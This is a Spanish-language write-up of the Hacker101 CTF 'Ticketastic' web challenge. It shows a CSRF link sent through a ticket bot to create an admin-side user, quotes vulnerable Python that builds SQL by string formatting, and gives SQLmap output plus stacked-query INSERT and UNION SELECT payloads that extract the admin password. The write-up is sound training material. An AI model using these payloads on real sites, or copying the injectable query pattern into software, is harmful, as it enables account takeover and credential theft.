






# HackerOne Hacker101 CTF

## Ticketastic
### Web - Moderate (5/flag)



### Hints
* Flag0
	* This level and the Ticketastic demo instance are running the same code
	* Take a look at addUser on the demo instance
	* What is missing?
	* Humans might read these tickets and interact with them
	* Links in tickets could be interesting
* Flag1
	* How do others log into this instance?
	* The login form reveals more than it should
	* So does the ticket endpoint
	
	
Para este reto disponemos de una versión demo donde probar las diferentes vulnerabilidades antes de enfrentarnos a la versión "real"

Una de las pistas la encontramos en el ticket de ejemplo.
```
Example Ticket
This is your ordinary, run of the mill ticket.  If any errors occurred during processing -- for instance, if the user gives a bad link -- these will be noted here.
```

La opción de crear usuarios consta de un formulario sin protección a CSRF que además envía los datos por el método GET `/newUser?username=patatas&password=fritas&password2=fritas`.




Probamos a enviar un ticket con una URL, observamos como tarda mas tiempo de lo habitual en enviarse.



En el panel de administración aparece el siguiente mensaje.



Aunque este formulario también es vulnerable a XSS, al no haber un administrador que revise los posts no podemos usar esta vulnerabilidad.

El visor de tickets `/ticket?id=1` también es vulnerable a inyección SQL en el parámetro *id*. Al igual que en anteriores retos, se nos muestra parte del código fuente cuando ocurre un error.

```python
cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
title, body, reply = cur.fetchone()
```

Utilizamos *SQLmap* para extraer los datos de la base de datos
```
Table: users
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin    |
+----+----------+----------+

Table: tickets
+----+--------------------------------------+---------+----------------+
| id | body                                 | reply   | title          |
+----+--------------------------------------+---------+----------------+
| 1  | This is your ordinary, run of the... | <blank> | Example Ticket |
+----+--------------------------------------+---------+----------------+
```

También podemos utilizar stacked queries en este reto para añadir un nuevo usuario en la DB.

`INSERT INTO users (id,username,password) VALUES (2, 'patatas', 'fritas');commit;`

Dado que casi todos estos fallos se encuentran en la parte autenticada, debemos utilizar el fallo del linkbot para conseguir añadir un usuario. 

Esto se consigue añadiendo el siguiente link en un post `http://127.0.0.1/newUser?username=patatas&password=fritas&password2=fritas`. Hay que tener en cuenta que estos retos se encuentran en una instancia de docker separada para cada usuario, y que aunque externamente accedemos por el puerto 5001 y un directorio, esto no es mas que un proxy inverso de *nginx*, .

Una vez dentro, tenemos la primera flag en los comentarios del primer post.



La segunda flag se encuentra en la contraseña del usuario admin. Aunque podriamos extraerla con SQLmap, tan solo necesitamos una consulta SQL.

`/ticket?id=-1 union select '',username,password from users LIMIT 1`


